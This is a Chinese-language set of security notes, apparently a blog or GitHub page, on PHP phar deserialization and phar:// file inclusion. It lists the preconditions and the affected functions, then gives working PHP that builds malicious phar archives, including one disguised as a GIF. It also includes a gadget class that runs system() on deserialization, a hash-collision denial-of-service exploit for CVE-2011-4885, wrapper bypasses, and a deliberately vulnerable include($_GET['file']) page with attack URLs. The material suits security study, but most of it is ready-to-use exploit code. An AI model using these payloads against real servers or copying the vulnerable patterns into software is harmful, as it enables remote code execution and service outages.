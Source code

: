 ## 反序列化
参考
- https://blog.zsxsoft.com/post/38
- https://paper.seebug.org/680/

利用条件
- phar文件要能够上传到服务器端。
- 存在`__destruct`,`__wakeup`魔术方法作为跳板
- 存在相关[函数](https://blog.zsxsoft.com/post/38)函数,并且参数可控，`:`、`/`、`phar`等特殊字符没有被过滤。

受影响的函数列表
![](/images/19-1-19_2018总结-PHP篇_利用类进行反序列化Phar1.png)
对于函数影响范围的深入追求参看`zsx`师傅的文章，简单如下：
- exif (exif_thumbnail、exif_imagetype)
- gd (imageloadfont、imagecreatefrom..)
- hash (hash_hmac_file、hash_file、hash_update_file、md5_file、sha1_file)
- file/url (get_meta_tags、get_headers)
- standard (getimagesize、getimagesizefromstring)
- zip
```php
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
```
- Postgres
```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```
- MySQL (要设置local-infile=1、secure_file_priv=""，因为是非默认设置)
```php
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
```

构造恶意phar包的php文件：
phar.php
```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php phpinfo();__HALT_COMPILER();?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

其中`xxx<?php xxx; __HALT_COMPILER();?>`时phar文件的stub，可用理解为一个表示，必须以`__HALT_COMPILER();?>`结尾，否则phar扩展将无法识别这个文件为phar文件。具体参考`seebug`的文章。

攻击测试
parh_test1.php
```php
<?php 
    class TestObject {
        public function __destruct() {
            echo 'Destruct called';
        }
    }

    $filename = 'phar://phar.phar/test.txt';
    file_get_contents($filename); 
?>
```

phar文件可伪造为其他文件
phar_2.php
```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

**还可以利用来进行拒绝服务攻击(PHP内核哈希表碰撞攻击（CVE-2011-4885）)**
exp_phar.php
```php
<?php
set_time_limit(0);
$size= pow(2, 16);
$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
    $array[$key] = 0;
}
$new_obj = new stdClass;
$new_obj->hacker = $array;
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['hacker.php'] = '<?php ?>';
$p->setMetadata($new_obj);
$p->setStub('GIF<?php __HALT_COMPILER();?>');
```
test.php
```php
<?php
set_time_limit(0);
$startTime = microtime(true);
file_exists("phar://avatar.phar");
$endTime = microtime(true);
echo '执行时间：  '.($endTime - $startTime). ' 秒'; 
```

**phar://绕过**
可以使用：
```
compress.bzip2://phar://
compress.zlib://
```
## 文件包含
(PHP 5 >= 5.3.0, PHP 7, PECL phar >= 1.0.0)

参考：
- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

demo.php
index.php
```php
<?php
include($_GET['file']);
?>
```
shell.txt
```php
<?php phpinfo() ?>
```
把sehll.txt压缩成test.zip文件

可用以下姿势进行包含
```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/shell.txt   //绝对路径
index.php?file=phar://test.zip/shell.txt   //相对路径
```